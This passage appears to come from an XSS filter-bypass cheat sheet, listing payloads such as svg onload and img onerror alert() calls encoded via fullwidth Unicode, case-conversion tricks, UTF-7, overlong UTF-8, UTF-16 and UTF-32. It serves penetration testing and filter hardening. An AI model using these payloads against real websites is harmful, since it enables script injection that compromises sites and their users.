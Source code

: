 An example payload could be `ʺ＞＜svg onload=alert(/XSS/)＞/`, which would look like that after being URL encoded:

```javascript
%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
```

When Unicode characters are converted to another case, they might bypass a filter look for specific keywords.

| Unicode  | Transform | Character |
| -------- | --------- | --------- |
| `İ` (%c4%b0) | `toLowerCase()` | i |
| `ı` (%c4%b1) | `toUpperCase()` | I |
| `ſ` (%c5%bf) | `toUpperCase()` | S |
| `K` (%E2%84) | `toLowerCase()` | k |

The following payloads become valid HTML tags after being converted.

```html
<ſvg onload=... >
<ıframe id=x onload=>
```

## Bypass using UTF-7

```javascript
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
```

## Bypass using UTF-8

```javascript
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9
```

## Bypass using UTF-16be

```javascript
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

## Bypass using UTF-32

```js
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```
